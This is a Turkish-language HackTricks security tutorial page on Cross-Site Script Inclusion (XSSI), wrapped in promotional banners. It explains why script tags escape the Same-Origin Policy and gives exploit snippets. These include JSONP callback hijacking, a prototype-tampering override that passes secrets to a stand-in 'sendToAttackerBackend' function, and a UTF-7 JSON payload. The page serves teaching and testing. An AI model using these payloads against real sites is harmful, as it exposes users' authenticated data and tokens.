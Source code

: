 # XSSI (Cross-Site Script Inclusion)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}


## Temel Bilgiler

**Cross-Site Script Inclusion (XSSI)**, HTML'deki `script` etiketinin doğasından kaynaklanan bir güvenlik açığıdır. Çoğu kaynağın **Same-Origin Policy (SOP)**'ye tabi olmasının aksine, script'ler farklı alanlardan dahil edilebilir. Bu davranış, farklı sunucularda barındırılan kütüphanelerin ve diğer kaynakların kullanımını kolaylaştırmak için tasarlanmıştır, ancak aynı zamanda potansiyel bir güvenlik riski de taşır.

### **XSSI**'nin Ana Özellikleri:
- **SOP'yi Aşma**: Script'ler **Same-Origin Policy**'den muaf tutulur, bu da onların farklı alanlar arasında dahil edilmesine olanak tanır.
- **Veri Açığa Çıkma**: Bir saldırgan, `script` etiketi aracılığıyla yüklenen verileri okumak için bu davranışı istismar edebilir.
- **Dinamik JavaScript/JSONP Üzerindeki Etki**: **XSSI**, dinamik JavaScript veya **JSON with Padding (JSONP)** için özellikle önemlidir. Bu teknolojiler genellikle kimlik doğrulama için "ambient-authority" bilgilerini (çerezler gibi) kullanır. Farklı bir ana bilgisayara script isteği yapıldığında, bu kimlik bilgileri (örneğin, çerezler) isteğe otomatik olarak dahil edilir.
- **Kimlik Doğrulama Token'ı Sızıntısı**: Bir saldırgan, bir kullanıcının tarayıcısını kontrol ettikleri bir sunucudan script istemeye kandırabilirse, bu isteklere dahil olan hassas bilgilere erişebilir.

### Türler

1. **Statik JavaScript** - Bu, XSSI'nin geleneksel formunu temsil eder.
2. **Kimlik Doğrulama ile Statik JavaScript** - Bu tür, erişim için kimlik doğrulama gerektirdiği için farklıdır.
3. **Dinamik JavaScript** - Dinamik olarak içerik üreten JavaScript'i içerir.
4. **JavaScript Olmayan** - JavaScript'i doğrudan içermeyen güvenlik açıklarını ifade eder.

**Aşağıdaki bilgiler [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)** adresinin bir özetidir. Daha fazla ayrıntı için kontrol edin.


### Normal XSSI
Bu yaklaşımda, özel bilgiler genel olarak erişilebilir bir JavaScript dosyasına gömülmüştür. Saldırganlar, dosya okuma, anahtar kelime arama veya düzenli ifadeler gibi yöntemler kullanarak bu dosyaları tanımlayabilir. Bulunduktan sonra, özel bilgi içeren script, kötü niyetli içerik içinde dahil edilebilir ve hassas verilere yetkisiz erişim sağlanabilir. Aşağıda bir örnek istismar tekniği gösterilmektedir:
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```
### Dinamik-JavaScript-tabanlı-XSSI ve Kimlik Doğrulanmış-JavaScript-XSSI
Bu tür XSSI saldırıları, bir kullanıcının isteğine yanıt olarak gizli bilgilerin dinamik olarak script'e eklenmesini içerir. Tespit, çerezlerle ve çerez olmadan istekler göndererek ve yanıtları karşılaştırarak gerçekleştirilebilir. Eğer bilgiler farklıysa, bu gizli bilgilerin varlığını gösterebilir. Bu süreç, [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS) Burp eklentisi gibi araçlar kullanılarak otomatikleştirilebilir.

Eğer gizli veriler bir global değişkende saklanıyorsa, bu, Regular XSSI'de kullanılan benzer yöntemlerle istismar edilebilir. Ancak, eğer gizli veriler bir JSONP yanıtında yer alıyorsa, saldırganlar bilgiyi almak için geri çağırma fonksiyonunu ele geçirebilir. Bu, ya global nesneleri manipüle ederek ya da JSONP yanıtı tarafından yürütülecek bir fonksiyon kurarak yapılabilir, aşağıda gösterildiği gibi:
```html
<script>
var angular = function () { return 1; };
angular.callbacks = function () { return 1; };
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
Global ad alanında yer almayan değişkenler için, *prototype tampering* bazen istismar edilebilir. Bu teknik, JavaScript'in tasarımını kullanır; burada kod yorumlaması, çağrılan özelliği bulmak için prototip zincirini geçmeyi içerir. Belirli fonksiyonları, örneğin `Array`'nin `slice` fonksiyonunu geçersiz kılarak, saldırganlar global olmayan değişkenlere erişebilir ve leak edebilir:
```javascript
Array.prototype.slice = function(){
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this);
};
```
Daha fazla bilgiye, [Sebastian Lekies](https://twitter.com/slekies) adlı Güvenlik Araştırmacısının çalışmalarında ulaşılabilir; kendisi bir [vektörler](http://sebastian-lekies.de/leak/) listesi tutmaktadır.

### Non-Script-XSSI
Takeshi Terada'nın araştırması, Non-Script dosyalarının, CSV gibi, `script` etiketinde kaynak olarak dahil edilerek cross-origin olarak sızdırıldığı başka bir XSSI biçimini tanıtmaktadır. Jeremiah Grossman’ın 2006 yılında tam bir Google adres defterini okumak için gerçekleştirdiği saldırı ve Joe Walker’ın 2007 JSON veri sızıntısı gibi tarihsel XSSI örnekleri, bu tehditlerin ciddiyetini vurgulamaktadır. Ayrıca, Gareth Heyes, belirli tarayıcılarda etkili olan JSON formatından kaçmak ve script'leri çalıştırmak için UTF-7 kodlu JSON içeren bir saldırı varyantını tanımlamaktadır:
```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

```html
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
